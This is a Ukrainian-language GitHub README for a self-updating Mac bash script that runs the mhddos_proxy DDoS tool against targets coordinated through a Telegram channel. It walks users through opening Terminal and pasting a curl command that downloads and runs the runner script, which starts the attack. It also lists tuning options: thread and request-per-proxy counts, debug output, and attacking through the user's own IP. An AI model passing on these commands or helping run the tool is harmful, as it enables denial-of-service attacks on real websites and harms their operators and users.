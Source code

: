 # Опис auto_mhddos_mac

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Mac-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє список машин по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux  
  
[**Варіант для Windows**](https://github.com/alexnest-ua/runner_for_windows)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)    
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси старі процеси з mhddos_proxy (щоб старі атаки не накопичувалися)**

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Mac запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

# Запуск скрипта
1) Заходимо в Launchpad, щоб відкрити термінал  
![image](https://user-images.githubusercontent.com/74729549/167318008-ec0e5caf-dc57-4d29-a352-8b41c49d4fe2.png)
2) У пошуку вбиваємо terminal  
![image](https://user-images.githubusercontent.com/74729549/167318025-d7d89817-4e83-4118-8c35-fbf37e59fdea.png)
3) Запускаємо Термінал  
![image](https://user-images.githubusercontent.com/74729549/167318042-f892bec6-7a8b-4ad7-aed1-f625f2e92fd4.png)
4) Вводимо команду, яка сама завантантажить усе необхідне та запустить атаку (на початку можливо у вас попросить **ваш пароль**, та після цього натиснути Enter, щоб підтвердити встановлення потрібнго пакету (brew))
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh
```
  
Буде запущено атаку з наступними параметрами за замовчуванням: threads=1500 rpc=1000 debug="" vpn=""(1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР)
  
**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 2)), але можно і без них:  
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh [threads] [rpc] [debug] [vpn]  
- threads - кількість потоків (але не менше 1000, та не більше 4000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі

**ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ті, що за замовчуванням.**  
**також можете додавати **3-тим** параметром --debug, що слідкувати за ходом атаки, та **4-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі**  
*наприклад команда з 2500 threads 2000 rpc дебагом та доп. атакою через ваш ІР*  
```shell
cd ~
curl -LO https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_mac/main/runner.sh && bash runner.sh 2500 2000 --debug --vpn
```

#test1
